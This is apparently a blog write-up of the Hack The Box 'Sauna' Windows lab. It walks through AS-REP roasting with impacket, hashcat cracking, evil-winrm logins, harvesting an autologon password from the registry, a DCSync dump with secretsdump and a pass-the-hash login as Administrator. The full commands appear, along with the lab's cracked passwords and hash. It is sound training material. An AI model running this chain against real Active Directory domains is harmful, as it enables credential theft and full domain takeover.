



+++
title = 'Sauna'
date = 2024-08-19T11:27:42-03:00
draft = false
weight = 2
+++

## Machine info


https://app.hackthebox.com/machines/229

- ​Difficulty: Easy
- OS: Windows
- Release date: 15 Feb, 2020
- Rooted on: 01 Jul, 2024

## Foothold/User

### Q1: What is the name of the HTML file that reveals the names of users working at the target company?

Starting with nmap, scanning all TCP ports right away, just to avoid having to run it twice, as I did in [Forest](../forest/).

```bash
$ nmap -sCV -p- --min-rate=1000 -oN nmap/complete.nmap 10.129.95.180
```
```
# Nmap 7.94SVN scan initiated Wed Jul 31 21:46:55 2024 as: nmap -sCV -p- --min-rate=1000 -oN nmap/complete.nmap 10.129.95.180
Nmap scan report for 10.129.95.180
Host is up (0.17s latency).
Not shown: 65516 filtered tcp ports (no-response)
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Microsoft IIS httpd 10.0
|_http-title: Egotistical Bank :: Home
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|_  Potentially risky methods: TRACE
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-08-01 07:49:15Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: EGOTISTICAL-BANK.LOCAL0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: EGOTISTICAL-BANK.LOCAL0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49667/tcp open  msrpc         Microsoft Windows RPC
49673/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49674/tcp open  msrpc         Microsoft Windows RPC
49676/tcp open  msrpc         Microsoft Windows RPC
49697/tcp open  msrpc         Microsoft Windows RPC
49720/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: SAUNA; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
|_clock-skew: 7h00m00s
| smb2-time: 
|   date: 2024-08-01T07:50:07
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Jul 31 21:50:49 2024 -- 1 IP address (1 host up) scanned in 233.60 seconds
```

We see that there's an IIS HTTP server on Port 80. Let's take a look at it.



Clicking on "About Us" in the top navigation bar, we get redirected to `/about.html`. By scrolling down, we notice that it gives us names of some employees.


**R1: about.html**

### Q2: Which user has Kerberos Pre-Authentication disabled?

This question kinda indicates that we won't be able to use anonymous bind on LDAP to get the usernames, but we can use the information from the about page in order to build a list and attempt running `GetNPUsers` with it.

I used the following script to generate a list from those names:

https://github.com/captain-noob/username-wordlist-generator

Here's the resulting list:

```
Fergus-Smith
Fergus_Smith
Fergus.Smith
Fergus Smith
FergusSmith
FSmith
FergusS
F-Smith
F_Smith
F.Smith
Fergus-S
Fergus_S
Fergus.S
FS
Shaun-Coins
Shaun_Coins
Shaun.Coins
Shaun Coins
ShaunCoins
SCoins
ShaunC
S-Coins
S_Coins
S.Coins
Shaun-C
Shaun_C
Shaun.C
SC
Hugo-Bear
Hugo_Bear
Hugo.Bear
Hugo Bear
HugoBear
HBear
HugoB
H-Bear
H_Bear
H.Bear
Hugo-B
Hugo_B
Hugo.B
HB
Bowie-Taylor
Bowie_Taylor
Bowie.Taylor
Bowie Taylor
BowieTaylor
BTaylor
BowieT
B-Taylor
B_Taylor
B.Taylor
Bowie-T
Bowie_T
Bowie.T
BT
Sophie-Driver
Sophie_Driver
Sophie.Driver
Sophie Driver
SophieDriver
SDriver
SophieD
S-Driver
S_Driver
S.Driver
Sophie-D
Sophie_D
Sophie.D
SD
Steven-Kerb
Steven_Kerb
Steven.Kerb
Steven Kerb
StevenKerb
SKerb
StevenK
S-Kerb
S_Kerb
S.Kerb
Steven-K
Steven_K
Steven.K
SK
```


Now, running the `GetNPUsers` script:

```bash
$ impacket-GetNPUsers egotistical-bank.local/ -outputfile npusers.txt -format hashcat -usersfile userlist.txt -dc-ip "10.129.95.180"
```



**R2: FSmith**

### Q3: What is the hash format returned from this AS-REP Roasting attack? Given the answer as the string between the first and third $ characters, including the $.

**R3: \$krb5asrep\$23\$**

### Q4: What is the password of the user fsmith?

Now we can attempt cracking that hash. I did it with hashcat.

```bash
$ hashcat -a 0 npusers.txt /usr/share/wordlists/rockyou.txt
```


**R4: Thestrokes23**

### Q5: Now that you have a valid set of credentials, on what port can you connect to the machine and get an interactive shell?

As we saw on the nmap output, port `5985` is open, which is the default port for WinRM, we learned in Forest that it is a protocol for remote access on windows.

This way, we can connect to the machine using evil-winrm, which besides giving the shell, also contains other stuff that are useful to pwn Windows.

```bash
$ evil-winrm -i "10.129.95.180" -u "fsmith" -p "Thestrokes23"
```



**R5: 5985**

## Privilege Escalation

### Q6: What user is configured to autologin?

Trying to get user information:

```powershell
PS C:\Users\FSmith\Documents> get-localuser
```


At this point, I spent a while searching for simple ways to get this user property, but none worked, so I read the lab's hint, which suggested to run [winPEAS](https://github.com/peass-ng/PEASS-ng/tree/master/winPEAS). I used specifically the PowerShell version.

After a couple of seconds watching the winPEAS output, I found this section:


https://en.wikipedia.org/wiki/Winlogon

A friend of mine also said afterwards that you could also search for Winlogon credentials with the `reg` command:

```powershell
PS C:\Users\FSmith\Documents\ComplexConfigurationStuff> reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon"
```


**R6: svc_loanmanager**

What confuses me about that question is the fact that `svc_loanmanager` is not the username that we use to get shell as the user. I only noticed that after spending a couple of minutes trying to figure out why I couldn't get shell and realizing that the user appeared as `SVC_LOANMGR` in BloodHound, which we could actually use to connect. 

### Q7: What is the password of the svc_loanmanager user?

**R7: Moneymakestheworldgoround!**

### Q8: Since you have a valid set of credentials for the svc_loanmanager user you can use WinRM once again and switch to that user. What is the dangerous right that this user has over the domain?

After logging in as this new user, we can use BloodHound to help us on finding vectors for further privilege escalation. Refer to [the official documentation](https://bloodhound.readthedocs.io/) on how to do that.

After marking both users as owned and executing the "Shortest Path to High Value Targets" query, we get this indicator that the `svc_loanmanager` user had the necessary privileges for DCSync over the domain.


What's odd here is that the guided mode didn't accept "DCSync" as a valid answer for the current question, so I just ignored it and continued the chain.

I then ran secretsdump to perform the DCSync attack and get the NTLM hashes from everyone.

```bash
$ secretsdump.py -just-dc 'svc_loanmgr:Moneymakestheworldgoround!@10.129.95.180' -outputfile "hashes"
```

Single quotes are needed so bash doesn't try to interpret the exclamation mark in the password as something else.


Getting shell as administrator with the NT hash:

```bash
$ evil-winrm -i "10.129.95.180" -u "Administrator" -H "823452073d75b9d1cf70ebdf86c7f98e"
```


After getting the root flag, I went to take a look at the write-up to find the answers for the questions I didn't get right.

In the Privilege Escalation section, in "BloodHound", I found this image:


I believe that this GetChangesAll and the DCSync rights are equivalent here. Probably the writer of the official write-up just used a different bloodhound version that didn't translate the GetChangesAll permission to DCSync.

**R8: GetChangesAll**

### Q9: You know that the user svc_loanmanager is able to perform a DCSync attack. By doing so, you will get the hash for the Administrator user. What is the common name of the attack that allows users to authenticate with their hashes instead of cleartext passwords?

This one I just guessed by the amount of characters, but the thing is that Pass the Hash is just a term for the action of using an NT hash for authentication without having knowledge of the actual password.

**R9: Pass the Hash**

That was the second machine of the Active Directory 101 track. It took me much less time to pwn, since it is very similar to Forest. The thing with getting the usernames from the about page and using them to attempt AS-REP roasting was cool. I had heard of this concept before and the machine was my first opportunity to put it in practice.